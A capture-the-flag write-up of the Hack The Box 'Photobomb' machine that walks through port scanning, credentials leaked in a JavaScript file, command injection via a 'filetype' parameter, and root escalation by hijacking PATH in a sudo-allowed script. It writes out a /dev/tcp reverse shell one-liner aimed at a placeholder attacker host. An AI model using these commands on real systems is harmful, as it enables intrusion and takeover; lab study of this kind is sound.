

Photobomb: Hack The Box Write-up
This is my detailed write-up for the Photobomb machine on Hack The Box. In this document, I will describe the steps and methods I used to gain access and eventually escalate privileges on the machine.
Introduction
Photobomb is a beginner-level Linux machine designed to provide a hands-on experience in cybersecurity. This setup allows users to apply their skills in identifying and exploiting common vulnerabilities, focusing on authentication, credential handling, and examining web application functionalities. Additionally, it offers opportunities to explore privilege escalation techniques through system scripting configurations. This machine provides a realistic and safe environment for learning about cybersecurity and penetration testing.
Reconnaissance
I started by performing a scan of all open TCP ports on the machine using the command: nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.182 -oG allPorts
Next, I used the extractPorts script to copy open ports to the clipboard. I then conducted a second nmap scan with this new information: nmap -sCV -p22,80 10.10.11.182 -oN targeted

For better visualization, I utilized bat (alias for cat) with the -l flag to highlight the output as if it were Java code. The scan revealed that TCP port 22 (commonly used for SSH) and port 80 (indicating a web server running on nginx) were open. The mention of "Ubuntu" alongside these results suggested a Linux machine.
Visiting http://10.10.11.182 redirected to http://photobomb.htb, but the page was not reachable due to Virtual Hosting. To resolve this, I added an entry with the IP and domain in the /etc/hosts file.

After this adjustment, refreshing the browser displayed the website.
Exploring the site revealed an authentication form accessible by clicking "click here!".
Inspecting the source code (CTRL+U) showed mostly plain HTML, with references to a CSS stylesheet and a JavaScript file named photobomb.js.

Examining the photobomb.js script revealed a credentials leak.
I stored these credentials for potential future use.
Exploitation
Using the discovered credentials, I accessed the website through the authentication form.

The website's functionality involved choosing a picture, format, and size for downloading. I wondered how the HTTP request was structured.
Using Burp Suite, I intercepted the request and sent it to the repeater for modification.

Observing that the 'filetype' parameter was vulnerable to injection, I experimented by appending a command after the value.

The HTTP 500 internal server error response indicated the possibility of code injection. To exploit this, I created a URL-encoded reverse shell one-liner: /bin/bash -c 'sh -i >& /dev/tcp/AttackerIP/AttackerPort 0>&1', replacing the IP and port with my listener setup.
Setting up a netcat listener on the designated port and sending the modified request through Burp Suite resulted in a successful reverse shell connection.
For an improved terminal experience, I performed a TTY upgrade (click here for instructions).
Privilege Escalation
Investigating potential sudo privileges with sudo -l revealed a script, /opt/cleanup.sh, that could be executed without a password.

The script, shown in the following image, contained a line starting with 'find' (not /usr/bin/find), allowing me to exploit the PATH variable. I created a file named 'find' containing 'sh' to hijack the script's execution path.
I ran the script with a modified PATH, causing it to execute my 'find' script instead of the intended binary: sudo PATH=$PWD:$PATH /opt/cleanup.sh. This granted me a shell with root privileges, as demonstrated in the final image, where I accessed the root flag.
Conclusion
The Photobomb machine provided a comprehensive learning experience in web exploitation and privilege escalation. Through methodical reconnaissance, code injection, and clever manipulation of system configurations, I gained both user and root access. This exercise underscored the importance of thorough system auditing and the potential dangers of overlooked vulnerabilities.